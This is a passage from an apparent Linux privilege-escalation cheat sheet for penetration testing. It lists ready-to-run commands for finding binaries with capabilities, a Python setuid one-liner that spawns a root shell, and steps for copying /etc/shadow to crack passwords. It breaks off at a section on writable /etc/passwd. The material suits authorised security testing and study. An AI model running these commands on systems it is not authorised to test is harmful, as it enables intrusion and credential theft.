 
**Known vulnerable SUID binaries:**
- Check GTFOBins for: nmap, vim, find, cp, mv, etc.

---

## Priority 4: Capabilities

### Check for Capabilities

```bash
# Find binaries with capabilities
getcap -r / 2>/dev/null
```

### Exploitable Capabilities

**cap_setuid:**
```bash
# If python has cap_setuid
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**cap_dac_override:**
```bash
# Can read any file
# Read /etc/shadow, crack passwords
```

**cap_dac_read_search:**
```bash
# Can read any file
tar -czf /tmp/shadow.tar.gz /etc/shadow
# Extract and read
```

---

## Priority 5: Writable System Files

### Check Critical File Permissions

```bash
# Can you write to /etc/passwd?
ls -la /etc/passwd

# Can you write to /etc/shadow?
ls -la /etc/shadow

# Can you write to /etc/sudoers?
ls -la /etc/sudoers
```

### Exploit Writable /etc/passwd
